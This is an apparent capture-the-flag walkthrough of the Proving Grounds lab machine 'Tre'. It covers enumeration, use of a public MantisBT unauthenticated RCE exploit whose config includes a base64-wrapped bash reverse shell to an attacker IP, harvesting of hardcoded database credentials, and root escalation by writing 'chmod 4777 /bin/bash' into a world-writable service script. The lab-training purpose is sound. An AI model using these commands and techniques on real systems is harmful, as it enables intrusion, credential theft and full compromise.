

# Tre
**Date:** May 4th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Intermediate

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
```

<br>

### Gobuster Scans

`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w dir-med.txt`

```
/info.php             (Status: 200) [Size: 87805]
/system               (Status: 401) [Size: 460]
/index.html           (Status: 200) [Size: 164]
/cms                  (Status: 200) [Size: 12540]
/mantisbt             (Status: 200) [Size: 6481]
```

Port 8082 gobuster:

```
/index.html           (Status: 200) [Size: 164]
```

/cms gobuster:

```
/templates            (Status: 200) [Size: 1730]
/site                 (Status: 200) [Size: 12540]
/index.php            (Status: 200) [Size: 12540]
/core                 (Status: 200) [Size: 0]
/custom               (Status: 200) [Size: 1746]
/cache                (Status: 200) [Size: 1601]
/vendor               (Status: 200) [Size: 2321]
/extensions           (Status: 200) [Size: 762]
```

/cms/site gobuster:

```
/index.html           (Status: 200) [Size: 12540]
/contact.html         (Status: 200) [Size: 6223]
/blog.html            (Status: 200) [Size: 6728]
/img                  (Status: 200) [Size: 3347]
/category.html        (Status: 200) [Size: 23863]
/main.html            (Status: 200) [Size: 931]
/css                  (Status: 200) [Size: 1817]
/js                   (Status: 200) [Size: 2903]
/readme.txt           (Status: 200) [Size: 410]
/artist.html          (Status: 200) [Size: 20133]
/playlist.html        (Status: 200) [Size: 8885]
/Source               (Status: 200) [Size: 2527]
```

/mantisbt gobuster:

```
/index.php            (Status: 200) [Size: 6481]
/search.php           (Status: 200) [Size: 6492]
/login.php            (Status: 200) [Size: 6605]
/view.php             (Status: 200) [Size: 4929]
/wiki.php             (Status: 200) [Size: 4929]
/library              (Status: 200) [Size: 2556]
/signup.php           (Status: 200) [Size: 4991]
/doc                  (Status: 200) [Size: 2428]
/admin                (Status: 200) [Size: 6497]
/scripts              (Status: 200) [Size: 1813]
/plugins              (Status: 200) [Size: 1808]
/css                  (Status: 200) [Size: 5785]
/images               (Status: 200) [Size: 2453]
/core                 (Status: 200) [Size: 17472]
/js                   (Status: 200) [Size: 4466]
/api                  (Status: 200) [Size: 1143]
/lang                 (Status: 200) [Size: 13470]
/vendor               (Status: 200) [Size: 2152]
/config               (Status: 200) [Size: 1787]
/fonts                (Status: 200) [Size: 3691]
/plugin.php           (Status: 200) [Size: 4931]
/verify.php           (Status: 200) [Size: 5023]
/main_page.php        (Status: 200) [Size: 6495]
/news_rss.php         (Status: 200) [Size: 6494]
/file_download.php    (Status: 200) [Size: 6499]
/xmlhttprequest.php   (Status: 200) [Size: 6500]
/login_page.php       (Status: 200) [Size: 6481]
/bug_report.php       (Status: 200) [Size: 4991]
/changelog_page.php   (Status: 200) [Size: 6500]
```

<br>

## Website Digging

Visiting the main page for both port 80 and 8082 displays:


There is no robots.txt and nothing interesting in the page source code for either port.

Looking at info.php shows us the standard phpinfo page, and it's a linux machine for sure.


The /cms page forwards you to /cms/site which is a SolMusic colorlib template:


The login page doesn't take you to a login page, and the create an account page also goes nowhere.

Looking at the news page takes us to a blog with 4 different posts all by Alan Smith so there is a potential username there.

Checking out /mantisbt:


Looking at /mantisbt/doc/en-US/Admin_Guide/Admin_Guide.txt shows us they're running MantisBT version 2.0:

```
Product SiteDocumentation Site

MantisBT 2.0
```

Running a `searchsploit mantis` shows us an unauthenticated RCE and I decide to give that one a try by pulling it over with 'searchsploit -m 48818':

```
Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)    | php/webapps/48818.py
```

Looking at the code shows we need to change a few things:

```python
class exploit():
	def __init__(self):
		self.s = requests.Session()
		self.headers = dict() # Initialize the headers dictionary
		self.RHOST = "192.168.95.84" # Victim IP
		self.RPORT = "80" # Victim port
		self.LHOST = "192.168.49.95" # Attacker IP
		self.LPORT = "4444" # Attacker Port
		self.verify_user_id = "1" # User id for the target account
		self.realname = "administrator" # Username to hijack
		self.passwd = "password" # New password after account hijack
		self.mantisLoc = "/mantisbt" # Location of mantis in URL
		self.ReverseShell = "echo " + b64encode("bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash" # Reverse shell payload
```

Make sure to change the RHOST, RPORT, LHOST, LPORT, and mantisLoc.

<br>

## System Access

After making the changes above just run it with `python2 48818.py` and you should get a reverse shell back:


<br>

## System Enumeration

Looking around the directory we end up in shows a sub-directory called config which I change over to and find a file named a.txt that contains the following:

```
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';

```

It's also in the config_inc.php file.

Also in this directory is a data.sql file and when looking through it we find:

```
INSERT INTO mantis_user_table(
                username, realname, email, password,
                date_created, last_visit, enabled, protected, access_level,
                login_count, lost_password_request_count, failed_login_count,
                cookie_string
        )
        VALUES (
                'administrator', '', 'root@localhost', '63a9f0ea7bb98050796b649e85481845',
                '2020-05-12 01:11:19', '2020-05-12 01:11:19', '1', '0', 90,
                3, 0, 0, '7ede40367f4c0d22fa257f67440a6db070ba2523653ecdd4ed4606cac99d82a8'
        );
```

Running that hash through crackstation.net shows that the password is just root. When trying to login to the localhost SQL database with the user administrator and password of root it doesn't work though.

Looking at other users on the system with a shell shows us one other than root:

```
tre:x:1000:1000:tre,,,:/home/tre:/bin/bash
```

Looking in /home/tre shows us our local.txt flag:

`wc -c /home/tre/local.txt`

```
33 /home/tre/local.txt
```

`sudo -l` requires a password to use.

Checking out `find / -perm /4000 2>/dev/null` and `getcap -r / 2>/dev/null` doesn't give us anything useful.

Checking `id` shows we're just in standard groups with no special privileges.

I find a file named adminer.php in the /var/www/html directory and when opening it up in a browser you get a MySQL login page. Trying the username and password we found in the a.txt file allows us to login:


Clicking the select button next to mantis_user_table on the left menu brings up the list of users. It also shows what appears to be a password for the tre user under the realname column:


I try and ssh over as tre and it works:


Checking `sudo -l` shows us:

```
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

I check /etc/crontab and crontab -l but don't see anything useful. I decided to upload pspy64 to see if there are any hidden cron or other jobs being ran by the system:

```
www-data@tre:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/05/04 20:50:49 CMD: UID=0     PID=12864  | sleep 1 
2023/05/04 20:50:49 CMD: UID=33    PID=12857  | ./pspy64 

--- SNIP ---

2023/05/04 20:50:49 CMD: UID=0     PID=413    | /bin/bash /usr/bin/check-system
```

That /usr/bin/check-system keeps getting run over and over once per second so I decide to see what it is. Looking at the file shows we have write access to it:

```
-rw----rw- 1 root root 135 May 12  2020 check-system
```

Displaying the contents shows it's a simple script:

```
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

I try and modify the script to see if I can just change /bin/bash full permissions:

```
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

chmod 4777 /bin/bash

while :
do
echo "Checking...";
sleep 1;
done
```

But looking at /bin/bash shows it wasn't updated:

```
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

I then read that script a little closer and the 2nd line says it's starting as a service, so it's not a simple cron job.

Checking `ps aux | grep check-system` shows us:

```
root       413  0.0  0.1   6728  3208 ?        Ss   19:54   0:01 /bin/bash /usr/bin/check-system
```

Ok, now it makes sense why tre can run /sbin/shutdown as root.

<br>

## Root

Shutting down the system should force the check-system service to load when the system comes back up, and it will have our malicious change in it causing /bin/bash to be SUID.

I reboot the system:


And then logging back in shows /bin/bash is SUID allowing us to easily escalate over to root:


And the proof.txt flag is waiting for us over in /root:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **searchsploit** to find an exploit that gave us a reverse shell due to a bug with MantisBT
- Finding hard coded **database credentials** in a file on the system and using them to login to the adminer.php MySQL GUI
- Finding an additional username and password in the users table and using it to ssh over to the system
- Using **pspy64** to find a service that runs over and over as the root user, and when looking at the file for the service we have write permissions to it
- Modifying that service so that it will change permissions on /bin/bash to 4777
- Checking sudo -l and seeing we have access to the shutdown command as the tre user and rebooting the system with it so the service we modified gets reloaded and makes /bin/bash SUID
- Using the SUID /bin/bash to switch over to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
